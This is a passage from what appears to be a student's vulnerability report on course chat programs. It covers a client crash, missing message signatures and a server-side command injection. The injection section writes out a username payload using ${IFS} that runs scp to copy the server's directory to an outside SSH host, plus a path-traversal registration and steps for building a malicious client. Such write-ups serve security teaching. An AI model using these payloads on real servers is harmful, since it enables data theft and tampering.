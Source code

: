 After this, user _test3_ logged out and tried to relogin, but after having received feedback from the server "authentication succeeded", the client exited. User _test2_ used `/users` command and got following output:

```bash
/users
this1
test2
test3
```

This means that user is logged in, but the client does not work. New user _test4_ tried to register, received the message "registration succeeded", and the client crashed.

Found: It was found during stress testing - sending random messages with initially 2 users and then adding the 3rd one.

## Vulnerability 5 (program 5)

Type: cryptography missing where required - missing message signatures

Impact: data corruption

Cause: each message sent from the client is missing the signature of that user, therefore the message can be modified and neither receiver, nor server would know that this edit occured. Since it is missing signatures, there is no particular location to be found in the code. The implementation of the signatures should be both in client send and receive functions to validate the messages and the server side send and receive, thus in the api_send, api_recv functions.

Steps: The vulnerability was found in the code, and would be abused, according to the threat model, in the hijacked connection, which I was not able to do.

Found: manual code inspection - it was found while looking through the client sending a message function, where the goal was to find how the message is safeguarded from being read while on the network.

## Vulnerability 6 (program 2)

Type: command injection

Impact: Data leak - , and data corruption -

Cause: server unknowingly can send its data to Mallory and server can be corrupted through command injection. This is because of not sanitizing username on the server side. There is an assumption, that the username is only alphanumeric characters, when it is sent to the server, because it does this check in the client side (client.c client_process_command() lines 105-111), but if the client is malicious, i.e. these lines are removed, the server generates client keys with their username (worker.c execute_request() line 282, rsa.c generate_keys() line 85 and 89 `sprintf(command, "openssl genrsa -out clientkeys/%s-private-key.pem 2048 > /dev/null 2>&1", username);`)

Steps: Create a malicious client by removing lines 105-111 in client.c file, which check if the username has non-alphanumeric characters. \
To inject a command, username cannot have spaces in its name, therefore spaces need to be replaced with `${IFS}` characters. Example of data leak can be copying current directory into a Mallory controlled ssh server, which does not need authentification. (Example registration (but this one needs authentification): `/register scp${IFS}-r${IFS}.${IFS}mrs368@ssh.data.vu.nl: test`).
Also, this vulnerability allows to write the RSA key pair into any directory on the server, example of this `/register ../../.. password` \
If the command or the given path are too long such that the client says "error: invalid command format", it is possible to disable this check in the client by removing lines 101-104 in the client.c file. Since this check is only in the client, the malicious client can inject even more elaborate command in the server.
